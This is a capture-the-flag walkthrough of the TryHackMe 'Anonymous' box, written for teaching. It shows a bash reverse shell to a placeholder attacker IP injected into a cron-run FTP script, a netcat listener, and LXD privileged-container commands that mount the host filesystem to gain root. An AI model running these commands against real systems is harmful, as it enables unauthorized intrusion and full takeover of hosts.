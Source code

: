 # Anonymous Walkthrough - TryHackMe  

---

## Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

## Step 1: Nmap Scan

We start with a basic scan:

```
nmap -sC -sV <target-ip>
```
    Initially, only two ports were open.

    No web server was found, so a full TCP scan was run to check for missed ports.

    Two more ports were discovered: standard SMB ports.

Step 2: Service Analysis

    SearchSploit was used to analyze the FTP service.

    We discovered anonymous FTP login is allowed.

Step 3: FTP Enumeration

Connect to FTP using:

ftp <target-ip>

Explore the files on the FTP share:

    To_do.txt – Reminder to disable anonymous login

    clean.sh – Bash script deleting /tmp files

    removed_files.log – Logs of deleted files

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
Step 4: SMB Enumeration

    SMB share named pics allowed NULL authentication.

    The share contained just images (likely not relevant), so we returned to FTP exploitation.

Step 5: Gaining a Shell

    Edit clean.sh and add a bash reverse shell with your IP:

bash -i >& /dev/tcp/<your-ip>/4444 0>&1

    Upload the modified script using FTP append:

ftp> append clean.sh

    Start a listener on your machine:

nc -lvnp 4444

    Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

Step 6: Capture User Flag

Navigate to the user's home directory:

cd /home/namelessone
cat user.txt

Step 7: Privilege Escalation

    Check /etc/passwd to identify users with shells (root and namelessone).

    Run LinPEAS for automated enumeration. It revealed the user is part of sudo and adm groups.

    If we had a password for namelessone, we could escalate to root via sudo.

    Found potential privilege escalation via LXD.

Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.

    Download LXD Alpine builder from GitHub.

    Build a small Alpine Linux image.

    Upload the image to the target machine.

    Import the image into LXC:

lxc image import alpine.tar.gz --alias myalpine

    Create and start a container:

lxc init myalpine privesc -c security.privileged=true
lxc config device add privesc mydisk disk source=/ path=/mnt
lxc start privesc
lxc exec privesc -- /bin/bash

    We now have root access on the box.

Step 9: Capture Root Flag

cat /root/root.txt

Submit the flag and claim your points!
Conclusion

    Exploited writable FTP + cron to get a shell.

    Escalated privileges using LXD containers.

    Learned about the dangers of sudo group membership and LXD.

References

    Privilege Escalation via LXD

Linux Privilege Escalation via LXD & Hijacked UNIX Socket

TryHackMe Room: Anonymous
